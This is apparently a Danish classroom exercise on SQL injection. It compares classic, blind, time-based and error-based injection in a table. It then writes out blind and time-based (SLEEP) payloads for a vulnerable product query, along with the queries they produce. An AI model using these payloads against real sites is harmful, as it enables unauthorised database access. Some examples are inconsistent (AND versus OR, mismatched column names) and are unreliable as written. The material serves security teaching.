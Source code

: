 ## Øvelse 2: Typer af SQL-Injektion
---
Forventning: Forstå forskellige typer af SQL-injektion og hvordan hver type kan udnyttes.

#### Øvelse 2.1: Forskellige SQL-injektionstyper
---
**Opret en tabel der sammenligner de fire typer SQL-injektion**

· Klassisk SQL-injektion

· Blind SQL-injektion

· Tidsbaseret SQL-injektion

· Fejlbaseret SQL-injektion

| SQL-injektionstype        | Beskrivelse                                                                       |
| ------------------------- | --------------------------------------------------------------------------------- |
| Klassisk SQL-injektion    | Manipulerer forespørgsler direkte gennem ondsindede input                         |
| Blind SQL-injektion       | Anvender sandt/falsk spørgsmål for at opdage databasedetaljer uden direkte output |
| Tidsbaseret SQL-injektion | Udnytter forsinkelser i databasen som respons for at finde sårbarheder            |
| Fejlbaseret SQL-injektion | Får databasen til at give fejlbeskeder med detaljer om dens struktur              |

#### Øvelse 2.2: Eksempler på Angreb
---
Givet forespørgslen:

```SQL
SELECT * FROM PRODUKT WHERE ProduktID = '$product_id';
```

**Hvordan kunne en blind SQL-injektion bruges til at finde ud af, om en bestemt produkt-id findes i webshop-databasen?**
	Kan afsløre data ved gradvist at teste for tilstedeværelsen af en specifik produkt-ID.
	
Sættes ind på ProdukctID's plads:
```SQL
' AND (SELECT COUNT(*) FROM Produkt WHERE ProductId = 1) > 0 --
```
Querien bliver til:
```SQL
SELECT * FROM PRODUKT 
WHERE ProduktID = '' 
OR (SELECT COUNT(*) FROM PRODUKT WHERE ProduktID = 1) > 0 --;
```


**Hvordan kan tidsbaseret SQL-injektion bruges til at afgøre, om en sårbarhed er til stede?**
	Kan teste sårbarheder ved at indsætte kommandoer, som forsinker serverens respons.

Sættes ind på ProdukctID's plads:
```SQL
' OR IF((SELECT COUNT(*) FROM PRODUKT WHERE ProduktID=1) > 0, SLEEP(5), 0) --
```
Querien bliver til:
```SQL
SELECT * FROM PRODUKT 
WHERE ProduktID = '' 
OR IF((SELECT COUNT(*) FROM PRODUKT WHERE ProduktID=1) > 0, SLEEP(5), 0) --';
```
#### Øvelse 2.3: Praktisk SQL-injektion
---
Du og din gruppe skal i denne øvelse se nærmere på, hvordan et konkret SQL injektionsangreb ser ud. Tag jer god tid til at forstå, hvad der sker – trin for trin.
